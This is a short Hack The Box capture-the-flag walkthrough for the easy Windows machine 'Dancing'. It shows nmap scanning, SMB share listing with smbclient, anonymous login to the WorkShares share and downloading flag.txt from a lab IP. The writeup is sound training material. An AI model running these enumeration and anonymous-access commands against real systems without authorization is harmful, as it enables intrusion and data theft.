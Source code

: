 # 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
Nmap
smbclient
Kali Linux

## 🔎 Nmap Enumeration
nmap -sCV 10.10.xx.xx
Port 445: SMB open
Port 135: RPC

🛠️ Server Message Block(SMB) Enumeration
smbclient -L 10.10.xx.xx
Anonymous login enabled
Found share: WorkShares

💥 Exploit
Used credentials found to log in or access flag path.
smbclient //10.10.xx.xx/WorkShares -N
Download files:
ls
cd Amy.J
ls
cd ..
cd James.P
ls
get flag.txt


